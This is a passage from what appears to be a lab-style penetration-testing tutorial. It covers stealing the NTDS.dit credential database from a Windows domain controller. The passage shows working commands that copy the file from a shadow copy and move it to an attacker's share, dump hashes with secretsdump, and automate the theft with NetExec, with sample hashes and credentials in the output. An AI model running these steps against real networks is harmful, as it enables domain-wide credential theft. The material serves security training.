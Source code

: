 #### Copying NTDS.dit from the VSS

We can then copy the `NTDS.dit` file from the volume shadow copy of `C:` onto another location on the drive to prepare to move NTDS.dit to our attack host.

```shell-session
*Evil-WinRM* PS C:\NTDS> cmd.exe /c copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\Windows\NTDS\NTDS.dit c:\NTDS\NTDS.dit

        1 file(s) copied.
```

**Note:** As was the case with `SAM`, the hashes stored in `NTDS.dit` are encrypted with a key stored in `SYSTEM`. In order to successfully extract the hashes, one must download both files.

#### Transferring NTDS.dit to attack host

Now `cmd.exe /c move` can be used to move the file from the target DC to the share on our attack host.

```shell-session
*Evil-WinRM* PS C:\NTDS> cmd.exe /c move C:\NTDS\NTDS.dit \\10.10.15.30\CompData 

        1 file(s) moved.	
```

#### Extracting hashes from NTDS.dit

With a copy of `NTDS.dit` on our attack host, we can go ahead and dump the hashes. One way to do this is with Impacket's `secretsdump`:

```shell-session
Ovas420@htb[/htb]$ impacket-secretsdump -ntds NTDS.dit -system SYSTEM LOCAL

Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Target system bootKey: 0x62649a98dea282e3c3df04cc5fe4c130
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Searching for pekList, be patient
[*] PEK # 0 found and decrypted: 086ab260718494c3a503c47d430a92a4
[*] Reading and decrypting hashes from NTDS.dit 
Administrator:500:aad3b435b51404eeaad3b435b51404ee:64f12cddaa88057e06a81b54e73b949b:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DC01$:1000:aad3b435b51404eeaad3b435b51404ee:e6be3fd362edbaa873f50e384a02ee68:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:cbb8a44ba74b5778a06c2d08b4ced802:::
<SNIP>
```

#### A faster method: Using NetExec to capture NTDS.dit
Alternatively, we may benefit from using NetExec to accomplish the same steps shown above, all with one command. This command allows us to utilize VSS to quickly capture and dump the contents of the NTDS.dit file conveniently within our terminal session.

```shell-session
Ovas420@htb[/htb]$ netexec smb 10.129.201.57 -u bwilliamson -p P@55w0rd! -M ntdsutil

SMB         10.129.201.57   445     DC01         [*] Windows 10.0 Build 17763 x64 (name:DC01) (domain:inlanefrieght.local) (signing:True) (SMBv1:False)
SMB         10.129.201.57   445     DC01         [+] inlanefrieght.local\bwilliamson:P@55w0rd! (Pwn3d!)
NTDSUTIL    10.129.201.57   445     DC01         [*] Dumping ntds with ntdsutil.exe to C:\Windows\Temp\174556000
NTDSUTIL    10.129.201.57   445     DC01         Dumping the NTDS, this could take a while so go grab a redbull...
NTDSUTIL    10.129.201.57   445     DC01         [+] NTDS.dit dumped to C:\Windows\Temp\174556000
NTDSUTIL    10.129.201.57   445     DC01         [*] Copying NTDS dump to /tmp/tmpcw5zqy5r
NTDSUTIL    10.129.201.57   445     DC01         [*] NTDS dump copied to /tmp/tmpcw5zqy5r
```